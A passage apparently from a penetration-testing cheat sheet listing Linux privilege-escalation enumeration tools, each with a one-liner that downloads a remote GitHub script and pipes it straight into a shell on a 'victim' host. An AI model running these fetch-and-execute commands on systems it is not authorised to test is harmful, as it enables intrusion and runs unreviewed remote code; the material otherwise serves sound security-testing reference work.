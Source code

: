 

### Tools


#### LinEnum

* [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

```
$ bash <(wget -qO- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) -t -e /dev/shm/ -r out.txt
```


#### linux-smart-enumeration

* [https://github.com/diego-treitos/linux-smart-enumeration/](https://github.com/diego-treitos/linux-smart-enumeration/)

```
$ sh <(wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh -qO-) -i | /dev/shm/out.txt
```


#### linPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```
$ sh <(wget -qO- https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -q | tee /dev/shm/out.txt
```


#### linux-exploit-suggester

* [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

Locally on target:

```
$ sh <(wget -qO- https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh) | tee /dev/shm/out.txt
```

On Attacker box providing `uname` output from Victim:

```
Victim$ uname -a
Attacket$ curl -sL https://github.com/mzet-/linux-exploit-suggester/raw/master/linux-exploit-suggester.sh > les.sh && chmod +x les.sh
Attacket$ ./les.sh --uname <UNAME_STRING>
```


#### SUID3NUM
